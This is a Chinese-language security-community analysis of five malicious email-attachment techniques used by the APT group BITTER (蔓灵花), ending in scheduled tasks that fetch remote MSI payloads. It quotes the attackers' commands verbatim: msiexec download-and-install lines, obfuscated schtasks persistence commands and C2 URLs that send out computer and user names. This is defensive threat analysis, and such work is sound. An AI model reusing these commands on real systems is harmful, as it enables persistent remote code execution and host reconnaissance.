

# APT 组织“蔓灵花”恶意邮件附件 5 种手法分析 - 先知社区

APT 组织“蔓灵花”恶意邮件附件 5 种手法分析

- - -

# 前言

最近有遇到同源样本，所以整合了一下近期”蔓灵花“组织钓鱼邮件中恶意附件执行的常见手法，包括：

-   恶意“.chm”文件投放
-   恶意"DDE"隐藏域代码执行
-   “.ppt”文件 PowerPoint 单击鼠标事件
-   恶意宏文档
-   公式编辑器漏洞利用

这篇文章会让你对上述的 5 类手法有个基本认识。后续会记录 23 年 5 月首次曝光的“蔓灵花”恶意邮件附件配套的后续载荷，白加黑”ORPCBackdoor“后门。（在此之前后续载荷常见为”wmRAT“远控）。

# 背景

蔓灵花组织，又称为 BITTER、APT-C-08、苦象、T-APT-17，是一支据称有南亚背景的高级持久性威胁（APT）组织。自 2013 年 11 月起，该组织开始活跃，并主要专注于巴基斯坦和中国两国。其攻击目标主要包括政府部门、电力行业、军工业相关单位，其意图是窃取敏感资料。

# 恶意附件手法分析

例举的五种已知的“蔓灵花”组织钓鱼手法，最终目的大都是创建计划任务定时 15 到 25 分钟请求一次 C2 远程加载（msiexec）恶意“.msi”文件。在请求时会带上计算机名和用户名，上线后 C2 后台会用计算机名和用户名创建一个空白的文件夹。攻击者会在诸多文件夹中挑选感兴趣的目标放入“.msi”文件，选中目标下次计划任务成功执行就会完成恶意的远程加载。

所以想去获取后续载荷直接访问多数时候是空的。

## （一）“.chm”文件投放

大概从 2021 年初起，“蔓灵花”组织使用“.chm”恶意文件投递的手法就很常见，这些年又猛猛吃老本。下图是一个受控的“.gov”邮箱账号，散播携带“.chm”恶意文件压缩包附件的邮件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221170853-d5f198b4-d098-1.png)  
查看其包含的恶意代码如下，主要是功能是创建一个恶意的计划任务。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221170912-e0fcad3e-d098-1.png)  
每隔 17 分钟远程加载（msiexec）一次恶意资源，并且上传主机名和用户名，计划任务如下图。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221170927-ea2907a4-d098-1.png)  
请求 url 地址

```plain
http://comnmsgwrapsvc.net/ver/verif.php/?h=%computername%*%username% 
http://folkmusicstreams.com/TIME/mac.php?sit=%computername%*%username%
```

抓取数据包如下图  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171012-049f07e6-d099-1.png)  
msiexec 命令远程加载是值得注意的事情。msiexec 是 Windows 操作系统下的命令行工具，用于安装、修复、卸载 Windows Installer 软件包。它支持加载远程资源安装，运行时，将 msi 文件从远程位置下载到本地的临时目录中，并在本地落地进行安装。安装完成或发生错误，临时的 msi 文件将从磁盘上删除。

所以在取证时，在受检 PC 或服务器是找不到 msi 包的。但是该方法在流量分析的角度是很容易被检测，使用 msiexec 做远程 http 资源加载，http 头“User-Agent”字段固定为“Windows Installer”（如上图）,如果你编写检测规则，一律判定恶意，就可以检测此类的远程加载恶意行为。

## （二）恶意"DDE"隐藏域代码执行

攻击者投递带有恶意 DDE auto 的文档。”.docx“文档打开时一片空白（也可能有其他正常的一些迷惑文字或图片信息），在选项中找到->视图->显示文档内容->域代码。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171046-19206a52-d099-1.png)  
打开之后长这样，实际上是十进制数。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171058-2069af62-d099-1.png)  
对应转 ascll 文本，同样是计划任务远程加载恶意 msi 文件。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171113-2960c7e0-d099-1.png)

```plain
"cmd /c msiexec.exe /i http://nesiallservice.net/chq/stall.msi /q"
```

值得一提的是 APT-Q-42 腾云蛇组织用过类似的手法，南亚组织手法错综复杂，好几个组织搞不好就是一伙人。

## （三）“.ppt”文件 PowerPoint 单击鼠标事件

攻击者下发恶意”.PPT“文件。在图片上设置了鼠标单击事件，同样是创建计划任务远程加载恶意 msi 资源。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171208-4a20ea14-d099-1.png)

```plain
cmd.exe <p style=color:white> /c schtasks /create /sc minute /mo 15 /tn AudioDg /f /tr  "%coMSPec% /c start /min msiexec /i  http://farleysmxpph.com/FOXX/far.php?ptu=%computername%*%username% /qn /norestart"& echo"</p><h3>继续</h3><p style=color:white>
```

## （四）文档宏病毒

攻击者下发携带恶意宏的文件。宏文档投递数相对较少见，毕竟初次要提示用户启用与否，可能总体成功率不高。启用宏之后在开发工具-->VB 编辑器中查看。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171246-6087ccfa-d099-1.png)  
可能存在密码校验，使用工具 VBA\_Password\_Bypasser 即可解密，注意这玩意儿要激活才能使用，有教程可以找到。后续就可以分析其中的恶意代码功能了。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171301-69864e9e-d099-1.png)

## （五）CVE-2018-0798 公式编辑器漏洞

攻击者下发携带漏洞的”.xlsx"文件，在诸多公式编辑器漏洞里，CVE-2018-0798 算是利用成功率比较高的。这受影响的版本软件和样本还有点难找。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171412-93cedd7e-d099-1.png)  
这是进程释放的详情，也是一样的创建计划任务远程恶意加载。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240221171430-9e66893a-d099-1.png)

```plain
"C:\Windows\System32\schtasks.exe" /create /sc MINUTE /mo 15 /TN \Windows\DWM\DWMCORE /TR "cmd /c start /min ms^iex^ec /i htt^p^:^//alf^ieh^eal^thc^ares^erv^ice^.^com/AL/al.php/?dt=%computername% /q" /f
```

- - -
